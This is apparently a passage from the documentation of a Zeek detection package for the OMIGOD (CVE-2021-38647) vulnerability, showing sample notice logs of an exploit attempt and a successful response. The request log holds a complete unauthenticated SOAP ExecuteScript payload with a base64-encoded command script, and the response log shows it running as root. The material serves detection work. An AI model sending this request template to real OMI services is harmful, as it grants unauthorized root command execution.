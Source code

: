 ```
1631859866.672356       CUoF9i1epohx0Xkycj      127.0.0.1       57592   127.0.0.1       5985    -       -       -       tcp     CVE_2021_38647::EXPLOIT_REQUEST A REQUEST to an OMI/WMI uri has a missing Authorization header - this is possibly a CVE-2021-38647 (AKA OMIGOD) exploit. See sub of this notice field for the raw Request data. Refer to https://www.wiz.io/blog/secret-agent-exposes-azure-customers-to-unauthorized-code-execution    The first 10000 bytes of data = '\x09\x09\x09\x09\x09\x09\x09\x09\x09      <s:Body>\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09          <p:ExecuteScript_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09        <p:Script>ZWNobyAiT01JR09EIGl0IHdvcmtzISINCmlkDQp1bmFtZQ0KZGF0ZQ0KZWNobyAiR29vZGJ5ZSINCg==</p:Script>\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09      <p:Arguments/>\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09            <p:timeout>0</p:timeout>\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09          <p:b64encoded>true</p:b64encoded>\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09      </p:ExecuteScript_INPUT>\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09        </s:Body>\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09\x09</s:Envelope>'   127.0.0.1       127.0.0.1       5985    -       -       Notice::ACTION_LOG      3600.000000
     -       -       -       -       -
```   

- The EXPLOIT_RESPONSE notice contains the data sent by the server. In the example below, the compromised data is the output of the payload script, being:    
``OMIGOD it works!&#10;uid=0(root) gid=0(root) groups=0(root)&#10;Linux&#10;Fri Sep 17 06:24:26 UTC 2021&#10;Goodbye&#10;``   
```
#separator \x09
#set_separator  ,
#empty_field    (empty)
#unset_field    -
#path   notice
#open   2021-09-20-14-23-48
#fields ts      uid     id.orig_h       id.orig_p       id.resp_h       id.resp_p       fuid    file_mime_type  file_desc       proto   note    msg     sub     src     dst     p       n       peer_descr      actions suppress_for    remote_location.country_code    remote_location.region  remote_location.city    remote_location.latitude        remote_location.longitude
#types  time    string  addr    port    addr    port    string  string  string  enum    enum    string  string  addr    addr    port    count   string  set[enum]       interval        string  string  string  double  double
1631859866.680111       CUoF9i1epohx0Xkycj      127.0.0.1       57592   127.0.0.1       5985    -       -       -       tcp     CVE_2021_38647::EXPLOIT_RESPONSE        A Server RESPONSE has been sent following a request to an OMI/WMI uri with a missing Authorization header - this is possibly a successful CVE-2021-38647 (AKA OMIGOD) exploit. See sub of this notice field for the raw Request data. Refer to https://www.wiz.io/blog/secret-agent-exposes-azure-customers-to-unauthorized-code-execution      The first 10000 bytes of data = '<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsen="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:e="http://schemas.xmlsoap.org/ws/2004/08/eventing" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:wsmb="http://schemas.dmtf.org/wbem/wsman/1/cimbinding.xsd" xmlns:wsman="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:wxf="http://schemas.xmlsoap.org/ws/2004/09/transfer" xmlns:cim="http://schemas.dmtf.org/wbem/wscim/1/common" xmlns:msftwinrm="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:wsmid="http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd"><SOAP-ENV:Header><wsa:To>http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</wsa:To><wsa:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteScript</wsa:Action><wsa:MessageID>uuid:04F232DD-CC2A-0005-0000-000000210000</wsa:MessageID><wsa:RelatesTo>uuid:00B60932-CC01-0005-0000-313370010000</wsa:RelatesTo></SOAP-ENV:Header><SOAP-ENV:Body><p:SCX_OperatingSystem_OUTPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem"><p:ReturnValue>TRUE</p:ReturnValue><p:ReturnCode>0</p:ReturnCode><p:StdOut>OMIGOD it works!&#10;uid=0(root) gid=0(root) groups=0(root)&#10;Linux&#10;Fri Sep 17 06:24:26 UTC 2021&#10;Goodbye&#10;</p:StdOut><p:StdErr></p:StdErr></p:SCX_OperatingSystem_OUTPUT></SOAP-ENV:Body></SOAP-ENV:Envelope>' 127.0.0.1       127.0.0.1       5985    -       -       Notice::ACTION_LOG      3600.000000     -       -       -       -       -

```
